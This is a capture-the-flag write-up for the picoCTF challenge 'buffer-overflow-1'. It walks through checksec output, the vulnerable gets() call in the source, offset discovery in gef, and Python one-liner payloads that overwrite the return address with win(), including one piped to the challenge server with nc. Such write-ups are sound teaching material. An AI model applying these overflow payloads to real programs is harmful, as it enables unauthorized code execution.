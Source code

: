 # buffer-overflow-1

## Description

Control the return address

## Enumeration

As always, lets start with some basic file enumeration:

```bash
$ file ./vuln  
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

The artifact is 32-bit and does not have Position Independent Executable (PIE) enabled. It is dynamically linked to libc and contains symbols.

Let's examine the artifact's security features using pwntools:

```bash
$ pwn checksec vuln                                            
[*] '/buffer-overflow-1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

There are virtually no security features enabled on this application, which means the possibilities are nearly endless!

## Code Review

We're given the source code `vuln.c`. Looking at `main`:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We see there is a functional call to `vuln`:

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The `vuln` function contains a `gets` call, which reveals our buffer overflow vulnerability. Now that we've identified it, we need to decide how to exploit it. Fortunately, there's a function named `win`:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

The `win` function loads the flag into memory and prints it to stdout. To call this function, we need to overwrite the return address with the address of `win`.

## Exploit Development

First, lets determine the offset from the return pointer:

```bash
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x08049281 <+0>:     endbr32
   0x08049285 <+4>:     push   ebp
   0x08049286 <+5>:     mov    ebp,esp
   0x08049288 <+7>:     push   ebx
   0x08049289 <+8>:     sub    esp,0x24
   0x0804928c <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049291 <+16>:    add    ebx,0x2d6f
   0x08049297 <+22>:    sub    esp,0xc
   0x0804929a <+25>:    lea    eax,[ebp-0x28]
   0x0804929d <+28>:    push   eax
   0x0804929e <+29>:    call   0x8049050 <gets@plt>
   0x080492a3 <+34>:    add    esp,0x10
   0x080492a6 <+37>:    call   0x804933e <get_return_address>
   0x080492ab <+42>:    sub    esp,0x8
   0x080492ae <+45>:    push   eax
   0x080492af <+46>:    lea    eax,[ebx-0x1f9c]
   0x080492b5 <+52>:    push   eax
   0x080492b6 <+53>:    call   0x8049040 <printf@plt>
   0x080492bb <+58>:    add    esp,0x10
   0x080492be <+61>:    nop
   0x080492bf <+62>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080492c2 <+65>:    leave
   0x080492c3 <+66>:    ret
gef➤  b *0x080492c3
Breakpoint 1 at 0x80492c3
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  pattern offset $esp
[+] Searching for '6c616161'/'6161616c' with period=4
[+] Found at offset 44 (little-endian search) likely
```

The offset to the return pointer is 44 bytes.

Next, we need an address to jump to. We can find this by printing the symbols of the artifact using `nm`:

```bash
$ nm ./vuln | grep "win"
080491f6 T win
```

We can craft a payload using a Python3 one-liner:

```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 144 + b"\x08\x04\x91\xf6")'
```

However, there is a problem with this payload. That's right, we didn't consider the endianess. We know from `Enumeration` that this artifact is little endian. If you don't know that that means, check out my [HTB: jeeves](https://github.com/k00l-beanz/k00l-beanz/tree/main/hackthebox/challenges/pwn/jeeves) writeup. In short, we'll need to reverse the bytes of the address:

```bash
#############################################
# Local
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\xf6\x91\x04\x08")' | ./vuln
#############################################
# Remote
python3 -c 'import sys;sys.stdout.buffer.write(b"A" * 44 + b"\xf6\x91\x04\x08" + b"\n")' | nc saturn.picoctf.net 53259
```

Which gets the flag.
